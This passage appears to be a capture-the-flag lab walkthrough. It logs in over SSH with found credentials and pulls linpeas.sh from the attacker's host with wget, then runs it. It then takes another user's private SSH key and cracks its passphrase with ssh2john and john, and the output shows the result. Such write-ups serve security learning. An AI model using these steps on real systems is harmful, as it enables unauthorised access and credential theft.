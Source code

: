 Username: `jan`

Password: `armando`

## SSH

We connect to: `SSH`

Now that we have creds, we can connect to the machine via SSH (`jan@$IP`)

### Enumeration

I ran `sudo -l` and we can't run sudo as this user. Let's find a way to escalate to a more privileged user. I uplaoded [`linpeas`](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) to the target machine using a python server where the script is and `wget` on the target machine. Then I set its permission to be executable and finally we run the script:

On my machine:
~~~
$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
~~~

On the target machine:
~~~
$ wget http://<YOUR IP>/linpeas.sh
$ chmod +x linpeas.sh
$ ./linpeas.sh
~~~

I found out that we can read the id_rsa for user `kay` located in `/home/kay/.ssh/id_rsa`. It means that we can use this private key to connect to the machine via SSH as user `kay`. I copied the content of the rsa key to my machine, but we need a password to use it.

Other user: `kay`

### PrivEsc

We need to crack the password. First we need to use an additional tool called `ssh2john` which changes the format of the key, to a format which is crackable by `john`. The steps are as follows (Did I just say that? XD ):

~~~
$ locate ssh2john              
/usr/share/john/ssh2john.py
                                                                                                                      
$ /usr/share/john/ssh2john.py kay.key > key.hash 
                                                                                                                      
$ john --wordlist=/usr/share/wordlists/rockyou.txt key.hash   
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
beeswax          (kay.key)
Warning: Only 1 candidate left, minimum 4 needed for performance.
1g 0:00:00:05 DONE (2021-10-24 03:38) 0.1912g/s 2742Kp/s 2742Kc/s 2742KC/s *7¡Vamos!
Session completed
~~~
